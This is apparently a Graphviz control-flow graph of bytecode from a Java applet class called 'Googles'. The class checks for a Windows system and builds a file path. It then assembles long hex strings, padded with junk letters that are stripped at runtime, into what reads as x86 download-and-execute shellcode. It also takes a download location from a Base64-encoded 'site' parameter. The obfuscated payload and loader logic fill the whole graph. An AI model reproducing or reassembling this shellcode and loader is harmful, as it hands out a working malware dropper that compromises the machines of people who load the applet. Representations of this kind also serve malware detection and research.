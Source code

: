 digraph "" {
    "r0 := @this: Googles"
    "push 47"
    "r0 := @this: Googles"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <Googles: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <Googles: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <Googles: java.lang.String repeat(char,int)>"->"pop";
    "push \"os111.na111me\""
    "pop"->"push \"os111.na111me\"";
    "push \"1\""
    "push \"os111.na111me\""->"push \"1\"";
    "push \"\""
    "push \"1\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"JJwJJinJJ\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"JJwJJinJJ\"";
    "push \"J\""
    "push \"JJwJJinJJ\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <Googles: java.lang.String repeat(char,int)>";
    "store.r r227"
    "staticinvoke <Googles: java.lang.String repeat(char,int)>"->"store.r r227";
    "goto new java.lang.StringBuilder"
    "store.r r227"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"====f=====il====e://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"====f=====il====e://\"";
    "push \"=\""
    "push \"====f=====il====e://\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r227"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r227";
    "load.r r227"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"@Z%@@Z%@@Z%Z%Z@@@@@@@@%@@@@Z@%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"@Z%@@Z%@@Z%Z%Z@@@@@@@@%@@@@Z@%\"";
    "push \"@\""
    "push \"@Z%@@Z%@@Z%Z%Z@@@@@@@@%@@@@Z@%\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r227";
    "store.r r227"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"r5rrrr0r5351r5256rrr57rrr559rrrrrrrCrE80000r0rrr00r05Drrr83ErrrrD0Drrrr3rrrrr1C0r6rrrr40rrrrr3rrr403rrr0780rrrrC8rrBrrrrr4rrrrrrrr00Crrrrrr8Brrr7rrr01rrrrCrADrr8rrB4008rEB0rr9rr8B4rrr0rrrr3r4rr8rD40rrr7rrrC8B4rrrr0rr3rC56rr\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"r5rrrr0r5351r5256rrr57rrr559rrrrrrrCrE80000r0rrr00r05Drrr83ErrrrD0Drrrr3rrrrr1C0r6rrrr40rrrrr3rrr403rrr0780rrrrC8rrBrrrrr4rrrrrrrr00Crrrrrr8Brrr7rrr01rrrrCrADrr8rrB4008rEB0rr9rr8B4rrr0rrrr3r4rr8rD40rrr7rrrC8B4rrrr0rr3rC56rr\"";
    "push \"r\""
    "push \"r5rrrr0r5351r5256rrr57rrr559rrrrrrrCrE80000r0rrr00r05Drrr83ErrrrD0Drrrr3rrrrr1C0r6rrrr40rrrrr3rrr403rrr0780rrrrC8rrBrrrrr4rrrrrrrr00Crrrrrr8Brrr7rrr01rrrrCrADrr8rrB4008rEB0rr9rr8B4rrr0rrrr3r4rr8rD40rrr7rrrC8B4rrrr0rr3rC56rr\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"vv57vvBEv5vvvE0v1vv00vv000v1vEEvvvBvvvvvvvvF4E01000vvv0vv01vvvEFvE8Dvvv6vvvvvv0vvvv100005vvvFvvv5vvvvE8v9vvvvEA81Cvvv2vvvv5vvvE0100vvvv0vvvvvvv052688v0000vvvv000FF9vvvv5vvv4Evv0vvv1vv0vv000vvvv89vvEAvvvv8v1vC2vvvvv5E0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"vv57vvBEv5vvvE0v1vv00vv000v1vEEvvvBvvvvvvvvF4E01000vvv0vv01vvvEFvE8Dvvv6vvvvvv0vvvv100005vvvFvvv5vvvvE8v9vvvvEA81Cvvv2vvvv5vvvE0100vvvv0vvvvvvv052688v0000vvvv000FF9vvvv5vvv4Evv0vvv1vv0vv000vvvv89vvEAvvvv8v1vC2vvvvv5E0\"";
    "push \"v\""
    "push \"vv57vvBEv5vvvE0v1vv00vv000v1vEEvvvBvvvvvvvvF4E01000vvv0vv01vvvEFvE8Dvvv6vvvvvv0vvvv100005vvvFvvv5vvvvE8v9vvvvEA81Cvvv2vvvv5vvvE0100vvvv0vvvvvvv052688v0000vvvv000FF9vvvv5vvv4Evv0vvv1vv0vv000vvvv89vvEAvvvv8v1vC2vvvvv5E0\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1000031PPPPPFP6P01C28A9PCPP35PPPP63P02PPPPP00P00PP8PP0FPPPB0PPP0PPP74068PP8P1PPPC3PP246EPPPBPPPEEPPPPCP6P04320PPPP089EAPPP8PP1PC2PPPP45PPP0PPPP2P0000PPP5PPPP2FPPPPFPPP95PPPPPP52PPP0PPP100PPP0PP0PP8PPPPP9PEPPPA8PP1CPPPP2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1000031PPPPPFP6P01C28A9PCPP35PPPP63P02PPPPP00P00PP8PP0FPPPB0PPP0PPP74068PP8P1PPPC3PP246EPPPBPPPEEPPPPCP6P04320PPPP089EAPPP8PP1PC2PPPP45PPP0PPPP2P0000PPP5PPPP2FPPPPFPPP95PPPPPP52PPP0PPP100PPP0PP0PP8PPPPP9PEPPPA8PP1CPPPP2\"";
    "push \"P\""
    "push \"1000031PPPPPFP6P01C28A9PCPP35PPPP63P02PPPPP00P00PP8PP0FPPPB0PPP0PPP74068PP8P1PPPC3PP246EPPPBPPPEEPPPPCP6P04320PPPP089EAPPP8PP1PC2PPPP45PPP0PPPP2P0000PPP5PPPP2FPPPPFPPP95PPPPPP52PPP0PPP100PPP0PP0PP8PPPPP9PEPPPA8PP1CPPPP2\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5K00KKK20K0KKKKK00K525KKK0KKKFKKFKKKK955601KKKK0KK0K00KKK6KAKKK00KK6AKK0K0K8K9KEKKAKKKK81C2K5KKE0KKK100KKK0K0KK52KKK89EAKKK81C2KK7KKK8KKK02K00KKKK0KKKK0KKK52K6AKKK00FKKKKFKD0KK6KKKA0589KEKKKKKAKKK81KKKC2KK5EKKK0KKKK100KK0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5K00KKK20K0KKKKK00K525KKK0KKKFKKFKKKK955601KKKK0KK0K00KKK6KAKKK00KK6AKK0K0K8K9KEKKAKKKK81C2K5KKE0KKK100KKK0K0KK52KKK89EAKKK81C2KK7KKK8KKK02K00KKKK0KKKK0KKK52K6AKKK00FKKKKFKD0KK6KKKA0589KEKKKKKAKKK81KKKC2KK5EKKK0KKKK100KK0\"";
    "push \"K\""
    "push \"5K00KKK20K0KKKKK00K525KKK0KKKFKKFKKKK955601KKKK0KK0K00KKK6KAKKK00KK6AKK0K0K8K9KEKKAKKKK81C2K5KKE0KKK100KKK0K0KK52KKK89EAKKK81C2KK7KKK8KKK02K00KKKK0KKKK0KKK52K6AKKK00FKKKKFKD0KK6KKKA0589KEKKKKKAKKK81KKKC2KK5EKKK0KKKK100KK0\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0S5SSSSS2FF9S55SSSASS0SSSS1SSS0SS0008S9EA8S1SSSSC2SSSS5E010SSSS0SSSSS005S2SS688SS0S000000SSSSFSFSSSS9SS5S4ESSSS0SSSSSSSS10S0SSSSS00SSSS89ESAS8SSSSSS1CS2S5SSSSSE01SSS0SSS0SSSSSS00SSSS31F60SSS1SSSSC2SSS8A9C35SSS6SSSE02SSSSS0SSSS000SS80\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0S5SSSSS2FF9S55SSSASS0SSSS1SSS0SS0008S9EA8S1SSSSC2SSSS5E010SSSS0SSSSS005S2SS688SS0S000000SSSSFSFSSSS9SS5S4ESSSS0SSSSSSSS10S0SSSSS00SSSS89ESAS8SSSSSS1CS2S5SSSSSE01SSS0SSS0SSSSSS00SSSS31F60SSS1SSSSC2SSS8A9C35SSS6SSSE02SSSSS0SSSS000SS80\"";
    "push \"S\""
    "push \"0S5SSSSS2FF9S55SSSASS0SSSS1SSS0SS0008S9EA8S1SSSSC2SSSS5E010SSSS0SSSSS005S2SS688SS0S000000SSSSFSFSSSS9SS5S4ESSSS0SSSSSSSS10S0SSSSS00SSSS89ESAS8SSSSSS1CS2S5SSSSSE01SSS0SSS0SSSSSS00SSSS31F60SSS1SSSSC2SSS8A9C35SSS6SSSE02SSSSS0SSSS000SS80\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FBhhhhhhhh007h40hhhhhh68hhh81hhC32hhh4hh6hhhhEBEhhhEChhh60hhh4h32hhhh008hhhh9hEAhhhh8hhhh1C24hhhh50hhhh2hhh0hhh0hhh0hhhh0hhh52FF9hhh5hh52hhh0hh10000hhhh89hhhEA8hhhh1C250hh0hh2h000hhh05hhhh2hhhh50FF9hhhhhh55601hhhh000hh06hA00hhhhhhh6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FBhhhhhhhh007h40hhhhhh68hhh81hhC32hhh4hh6hhhhEBEhhhEChhh60hhh4h32hhhh008hhhh9hEAhhhh8hhhh1C24hhhh50hhhh2hhh0hhh0hhh0hhhh0hhh52FF9hhh5hh52hhh0hh10000hhhh89hhhEA8hhhh1C250hh0hh2h000hhh05hhhh2hhhh50FF9hhhhhh55601hhhh000hh06hA00hhhhhhh6\"";
    "push \"h\""
    "push \"FBhhhhhhhh007h40hhhhhh68hhh81hhC32hhh4hh6hhhhEBEhhhEChhh60hhh4h32hhhh008hhhh9hEAhhhh8hhhh1C24hhhh50hhhh2hhh0hhh0hhh0hhhh0hhh52FF9hhh5hh52hhh0hh10000hhhh89hhhEA8hhhh1C250hh0hh2h000hhh05hhhh2hhhh50FF9hhhhhh55601hhhh000hh06hA00hhhhhhh6\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A008pppp9ppppppEppAp8ppp1C25ppE01p0000p5ppppp289EApppp8p1pppC2A6p020pp0pppppppp005ppp26pA00FppFppDpp0pp6A0pppp58pppp9EA81C2pp5E01ppppp000pp05p2ppppFppFpppp9ppppppp55App01pppp0ppp0009D5ppppDppp5pFpppp5E5A5p95pppppB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A008pppp9ppppppEppAp8ppp1C25ppE01p0000p5ppppp289EApppp8p1pppC2A6p020pp0pppppppp005ppp26pA00FppFppDpp0pp6A0pppp58pppp9EA81C2pp5E01ppppp000pp05p2ppppFppFpppp9ppppppp55App01pppp0ppp0009D5ppppDppp5pFpppp5E5A5p95pppppB\"";
    "push \"p\""
    "push \"A008pppp9ppppppEppAp8ppp1C25ppE01p0000p5ppppp289EApppp8p1pppC2A6p020pp0pppppppp005ppp26pA00FppFppDpp0pp6A0pppp58pppp9EA81C2pp5E01ppppp000pp05p2ppppFppFpppp9ppppppp55App01pppp0ppp0009D5ppppDppp5pFpppp5E5A5p95pppppB\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"58CXXX300XXXX00000XX0XX0XX0X000000XXXXXXX0X0XX0X00XXXXXXXX00000000XXX00XXX0XXXX4765XX7XXXX4546XXXX56XXXXD70XXXX5XXXX0XXX61XXXX746841XX0XXX04XXXC6XXXXFXXX616XXXX4XX4CXXXX69XXXXX6XX2XX7XXXX261727X9XX41XXXX00X47657XXX45\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"58CXXX300XXXX00000XX0XX0XX0X000000XXXXXXX0X0XX0X00XXXXXXXX00000000XXX00XXX0XXXX4765XX7XXXX4546XXXX56XXXXD70XXXX5XXXX0XXX61XXXX746841XX0XXX04XXXC6XXXXFXXX616XXXX4XX4CXXXX69XXXXX6XX2XX7XXXX261727X9XX41XXXX00X47657XXX45\"";
    "push \"X\""
    "push \"58CXXX300XXXX00000XX0XX0XX0X000000XXXXXXX0X0XX0X00XXXXXXXX00000000XXX00XXX0XXXX4765XX7XXXX4546XXXX56XXXXD70XXXX5XXXX0XXX61XXXX746841XX0XXX04XXXC6XXXXFXXX616XXXX4XX4CXXXX69XXXXX6XX2XX7XXXX261727X9XX41XXXX00X47657XXX45\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KKK0KKK7KKK2KKKK6KKKKFK6K341K64K64726KKK5737300576KKKKK96E4K5KK7KK8KK656KKKKKKK300KKKBBKKKK8KKKKKKKK9KKKKF2KKKK8K9KKF730C0AKE7KKKK5KFDKK29F789F93KK1CKKKK0BE3C0KKKK0KK0KKKK00KK0KK03KKKKB51KKKKBKK0K200KK006KK6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KKK0KKK7KKK2KKKK6KKKKFK6K341K64K64726KKK5737300576KKKKK96E4K5KK7KK8KK656KKKKKKK300KKKBBKKKK8KKKKKKKK9KKKKF2KKKK8K9KKF730C0AKE7KKKK5KFDKK29F789F93KK1CKKKK0BE3C0KKKK0KK0KKKK00KK0KK03KKKKB51KKKKBKK0K200KK006KK6\"";
    "push \"KKK0KKK7KKK2KKKK6KKKKFK6K341K64K64726KKK5737300576KKKKK96E4K5KK7KK8KK656KKKKKKK300KKKBBKKKK8KKKKKKKK9KKKKF2KKKK8K9KKF730C0AKE7KKKK5KFDKK29F789F93KK1CKKKK0BE3C0KKKK0KK0KKKK00KK0KK03KKKKB51KKKKBKK0K200KK006KK6\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ADuu0u3uuu8uuuu5uuu1uuBu020u00uuuuu0uu8Buuu7u0u7uuu8u83uuuuuuCuuu61uC03uuuuuBuu51uuuBuuu020uuuuuuu0008DuuuuuuuBD1uuuuFuuuu02u000uuuu0uuuuAuuuuD0uu3uu8uu51Bu02uuuu0000AuBuuAuuuuD03851uuB02uuuuuu0uuuu0uuu00uuuu5uu0uuAuuuBADuu0uuuuuuu385u1Buuuu02u0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ADuu0u3uuu8uuuu5uuu1uuBu020u00uuuuu0uu8Buuu7u0u7uuu8u83uuuuuuCuuu61uC03uuuuuBuu51uuuBuuu020uuuuuuu0008DuuuuuuuBD1uuuuFuuuu02u000uuuu0uuuuAuuuuD0uu3uu8uu51Bu02uuuu0000AuBuuAuuuuD03851uuB02uuuuuu0uuuu0uuu00uuuu5uu0uuAuuuBADuu0uuuuuuu385u1Buuuu02u0\"";
    "push \"u\""
    "push \"ADuu0u3uuu8uuuu5uuu1uuBu020u00uuuuu0uu8Buuu7u0u7uuu8u83uuuuuuCuuu61uC03uuuuuBuu51uuuBuuu020uuuuuuu0008DuuuuuuuBD1uuuuFuuuu02u000uuuu0uuuuAuuuuD0uu3uu8uu51Bu02uuuu0000AuBuuAuuuuD03851uuB02uuuuuu0uuuu0uuu00uuuu5uu0uuAuuuBADuu0uuuuuuu385u1Buuuu02u0\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000NNNNNAB5NNNNE3NNN1DBNNNANNNDNNNNNNNN5N6NNNN03NN85NN1BNNN0N20N00089C6NNN89D7NNN5NN1FCNNFNN3NNA65NNN97N4045E43NNNEBNNNNNENNN95E93NNND1NNNNE003NN8NN5NN27N02NNNNNNNN00NN00N31NNF696NNNNNN66ANNNNDNCN1EN0020NNNN3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000NNNNNAB5NNNNE3NNN1DBNNNANNNDNNNNNNNN5N6NNNN03NN85NN1BNNN0N20N00089C6NNN89D7NNN5NN1FCNNFNN3NNA65NNN97N4045E43NNNEBNNNNNENNN95E93NNND1NNNNE003NN8NN5NN27N02NNNNNNNN00NN00N31NNF696NNNNNN66ANNNNDNCN1EN0020NNNN3\"";
    "push \"N\""
    "push \"000NNNNNAB5NNNNE3NNN1DBNNNANNNDNNNNNNNN5N6NNNN03NN85NN1BNNN0N20N00089C6NNN89D7NNN5NN1FCNNFNN3NNA65NNN97N4045E43NNNEBNNNNNENNN95E93NNND1NNNNE003NN8NN5NN27N02NNNNNNNN00NN00N31NNF696NNNNNN66ANNNNDNCN1EN0020NNNN3\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"XXX8X5XX1XXXXFXX0XX200008XX9C6XXXXAD0X3851BX020XXX0XXXX00XXXXCXX3XXXXEBX100XXX00X000X0XX0XXX00000XXXX0000XX000XXXX000000XXXX0XXX0XXXX0X0XXXXXX008XX98XXXX5XX1XXB02XXXX0000565XXXXXX7EXX858XXFFFXXXXFFFXXXX5FXXX5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"XXX8X5XX1XXXXFXX0XX200008XX9C6XXXXAD0X3851BX020XXX0XXXX00XXXXCXX3XXXXEBX100XXX00X000X0XX0XXX00000XXXX0000XX000XXXX000000XXXX0XXX0XXXX0X0XXXXXX008XX98XXXX5XX1XXB02XXXX0000565XXXXXX7EXX858XXFFFXXXXFFFXXXX5FXXX5\"";
    "push \"XXX8X5XX1XXXXFXX0XX200008XX9C6XXXXAD0X3851BX020XXX0XXXX00XXXXCXX3XXXXEBX100XXX00X000X0XX0XXX00000XXXX0000XX000XXXX000000XXXX0XXX0XXXX0X0XXXXXX008XX98XXXX5XX1XXB02XXXX0000565XXXXXX7EXX858XXFFFXXXXFFFXXXX5FXXX5\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EABsss01ssCE8sss0ssss3EBsssBss7402sEBEsDssssCssss35552ss4ssssCsssss4D4sssFss4ssssssEs2E444C4C005ss55s24C44sss6sF776Essssss6C6Fssss61sss645ss4s6ssssFs4sss6ssss6sss96sssC6ssssss541s00ss7064sss667ssss5ssss7ss0sss642E657sss8ss65ssss00ss6ssssssss3sss72ssss617sss3s68s2Essss7ssss06s8sss7ss000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EABsss01ssCE8sss0ssss3EBsssBss7402sEBEsDssssCssss35552ss4ssssCsssss4D4sssFss4ssssssEs2E444C4C005ss55s24C44sss6sF776Essssss6C6Fssss61sss645ss4s6ssssFs4sss6ssss6sss96sssC6ssssss541s00ss7064sss667ssss5ssss7ss0sss642E657sss8ss65ssss00ss6ssssssss3sss72ssss617sss3s68s2Essss7ssss06s8sss7ss000\"";
    "push \"s\""
    "push \"EABsss01ssCE8sss0ssss3EBsssBss7402sEBEsDssssCssss35552ss4ssssCsssss4D4sssFss4ssssssEs2E444C4C005ss55s24C44sss6sF776Essssss6C6Fssss61sss645ss4s6ssssFs4sss6ssss6sss96sssC6ssssss541s00ss7064sss667ssss5ssss7ss0sss642E657sss8ss65ssss00ss6ssssssss3sss72ssss617sss3s68s2Essss7ssss06s8sss7ss000\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r37"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r37";
    "load.r r0"
    "store.r r37"->"load.r r0";
    "push \"site\""
    "load.r r0"->"push \"site\"";
    "push \"g\""
    "push \"site\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Googles: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Googles: java.lang.String getParameter(java.lang.String)>";
    "push \"00J90\""
    "virtualinvoke <Googles: java.lang.String getParameter(java.lang.String)>"->"push \"00J90\"";
    "push \"00J90\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r52"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r52";
    "staticinvoke <Base64cod: java.lang.String decodeString(java.lang.String)>"
    "store.r r52"->"staticinvoke <Base64cod: java.lang.String decodeString(java.lang.String)>";
    "store.r r265"
    "staticinvoke <Base64cod: java.lang.String decodeString(java.lang.String)>"->"store.r r265";
    "store.r r265"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r37"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r37";
    "load.r r37"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r37";
    "store.r r37"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r37";
    "load.r r37"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r265"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r265";
    "load.r r265"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
